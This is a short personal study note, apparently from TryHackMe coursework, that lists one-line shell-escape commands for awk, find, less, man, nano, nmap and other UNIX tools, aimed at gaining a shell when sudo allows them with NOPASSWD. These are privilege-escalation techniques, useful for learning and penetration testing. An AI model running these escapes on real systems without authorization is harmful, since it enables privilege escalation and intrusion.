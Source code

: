 # Shell Escapes

author:: Nathan Acks  
date:: 2021-10-31

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via sudo.

* `awk` — `awk 'BEGIN {system("/bin/sh")}'`
* `find` — `find . -exec /bin/sh \; -quit`
* `ftp` — `!/bin/sh`
* `iftop` — `!/bin/sh`
* `less` — `!/bin/sh`
* `man` — `!/bin/sh`
* `more` — `!/bin/sh` (may require TERM to be unset)
* `nano` — ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` — create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` — see “Set a Shell in ViM”

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins](https://gtfobins.github.io)
* [Enumerate “sudo” Access](enumerate-sudo-access.md)
* [Set a Shell in ViM](set-a-shell-in-vim.md)
